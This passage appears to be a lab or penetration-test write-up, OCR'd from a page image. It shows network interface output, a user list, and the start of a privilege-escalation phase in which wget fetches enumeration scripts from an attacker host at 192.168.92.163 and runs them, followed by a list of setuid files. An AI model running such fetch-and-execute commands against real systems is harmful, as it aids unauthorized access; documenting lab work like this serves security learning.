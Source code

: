 ``` {.python .numberLines}
       RX errors 0  dropped 0  overruns 0  frame 0
       TX packets 263355  bytes 76831868 (76.8 MB)
       TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
user6@osboxes>  
user6@osboxes> users
root
mysql
user1
user2
user3
user4
user5
user6
user7
user8
```

\newpage
## Phase #3: Privilege Escalation
1\. We start with downloading the privesc enumerations scripts:  
``` {.python .numberLines}
wget http://192.168.92.163:8000/lse.sh ; chmod +x ./lse.sh ; ./lse.sh | tee lse.txt
wget http://192.168.92.163:8000/linenum.sh ; chmod +x ./linenum.sh ; ./linenum.sh | tee linenum.txt
wget http://192.168.92.163:8000/linuxprivchecker.py ; chmod +x ./linuxprivchecker.py ; python ./linuxprivchecker.py | tee linuxprivchecker.txt

```

2\. We also explore the `home` directories of users and find some inetresting files:  
``` {.python .numberLines}
/home/user3/shell → setuid
/home/user4/abc.txt → owned by root
/home/user5/script → setuid

```
